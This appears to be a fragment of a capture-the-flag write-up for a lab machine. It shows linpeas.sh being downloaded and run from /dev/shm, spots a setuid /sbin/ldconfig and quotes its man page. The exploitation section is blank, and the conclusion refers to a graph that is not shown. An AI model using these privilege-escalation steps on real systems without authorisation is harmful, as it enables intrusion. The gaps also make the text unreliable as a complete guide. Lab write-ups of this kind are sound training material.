    Length: 319969 (312K) [text/x-sh]
    Saving to: ‘linpeas.sh’
    
    linpeas.sh                                   100%[============================================================================================>] 312.47K   715KB/s    in 0.4s
    
    2021-01-16 08:30:02 (715 KB/s) - ‘linpeas.sh’ saved [319969/319969]
    
    genevieve@dab:/dev/shm$ chmod +x linpeas.sh
    genevieve@dab:/dev/shm$ ./linpeas.sh
    
    

` 

Let it run, and then you can inspect what's interesting, most importantly the /sbin/ldconfig binary has the setuid bit enabled to run as root. ldconfig:

    
    
    [ 10.10.14.16/23 ] [ /dev/pts/5 ] [~]
    → man ldconfig
    
    
    DESCRIPTION
      ldconfig  creates  the  necessary  links  and  cache  to  the  most  recent  shared  libraries  found  in  the  directories specified on the command line, in the file
      /etc/ld.so.conf, and in the trusted directories, /lib and /usr/lib (on some 64-bit architectures such as x86-64, /lib and /usr/lib are  the  trusted  directories  for
      32-bit libraries, while /lib64 and /usr/lib64 are used for 64-bit libraries).
      The  cache  is used by the run-time linker, ld.so or ld-linux.so.  ldconfig checks the header and filenames of the libraries it encounters when determining which ver‐
      sions should have their links updated.
      ldconfig will attempt to deduce the type of ELF libraries (i.e., libc5 or libc6/glibc) based on what C libraries, if any, the library was linked against.
    
    

The second binary we need is located in /usr/bin/myexec:

    
    
    
    
    
    
    
    
    
    
    
    
    
    
    
    
    
    
    
    
    
    
    
    
    
    
    
    
    
    
    
    
    

## **Conclusion**

Here we can see the progress graph :

